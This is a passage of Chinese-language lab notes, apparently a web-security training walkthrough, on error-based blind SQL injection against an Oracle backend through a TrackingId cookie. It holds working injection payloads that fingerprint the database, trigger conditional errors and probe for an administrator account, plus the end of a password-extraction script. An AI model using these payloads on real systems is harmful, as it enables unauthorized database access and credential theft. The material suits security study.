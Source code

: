 ```python
final_password = extract_password()
print(f"\n[*] 爆破结束，管理员密码是：{final_password}")

```

## 9、报错注入

例子

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

如果条件为假：'a' = 'a' 不报错

如果条件为真：触发除0错误 报错

### 关卡1：

```
Cookie: TrackingId=OzouoA9wVPzw8Aip'||(select+'')||'--+
```

||是字符串连接符

这样做 拼接过程是`OzouoA9wVPzw8Aip + '' + ''` = `OzouoA9wVPzw8Aip ` 不会造成危害

结果响应是500 推测是oracle数据库

oracle不支持这种`select ''`不指定from的语句，其他常见的都是支持的



改成：

```
Cookie: TrackingId=OzouoA9wVPzw8Aip'||(select+''+from+dual)||'--+
```

`dual` 是 Oracle 数据库中的一个特殊单行表，常用于计算表达式。

响应是200，确定是oracle数据库



```sql
OzouoA9wVPzw8Aip'||(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'--+;
报错
```

```sql
OzouoA9wVPzw8Aip'||(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'--+;
不报错
```

可以通过这个语句来验证是否存在administrator用户

```sql
OzouoA9wVPzw8Aip'||(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+where+username='administrator')||'--+
状态200
```
